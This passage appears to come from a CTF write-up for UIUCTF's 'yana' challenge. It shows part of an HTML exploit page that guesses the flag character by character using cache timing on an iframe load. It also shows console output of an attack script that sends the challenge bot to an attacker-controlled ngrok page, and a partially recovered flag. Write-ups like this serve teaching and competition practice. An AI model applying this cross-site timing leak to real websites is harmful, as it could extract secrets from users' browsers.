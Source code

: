 ```html
            const param = window.location.hash.substring(1);

            // Load iframe with the guess https://chal.yana.wtf/#uiuctf{<next char>
            document.getElementById("ifr").src = "https://chal.yana.wtf/#" + param;

            // Check the timing of the 'y' image
            runTest(param);
        </script>
    </body>
</html>
```

Think positive and let it go.

```bash
$ python attack.py 
Opening connection to yana-bot.chal.uiuc.tf on port 1337
Opening connection to yana-bot.chal.uiuc.tf on port 1337
Opening connection to yana-bot.chal.uiuc.tf on port 1337
Opening connection to yana-bot.chal.uiuc.tf on port 1337
[+] Opening connection to yana-bot.chal.uiuc.tf on port 1337: Done
[*] Loading page https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{X.
[*] Loading page https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{k.
[*] Loading page https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{7.
[*] Loading page https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{_.
[*] Loading page https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{t.
[/.......] Opening connection to yana-bot.chal.uiuc.tf on port 1337
# Another bunch of trash lines
```

After some seconds, we get the report:

![flag first char](img/flag_first_char.png)

Found the **y** as the first char! (timing < 10 ms). We can stop the brute, include the 'y' in the start variable, and go again.

```python
start = "https://2cd87fccf2d0.ngrok.io/yana.php#uiuctf{y"
```

Go, go, go!

And now we got:

```
uiuctf{y0
```

## 0wned
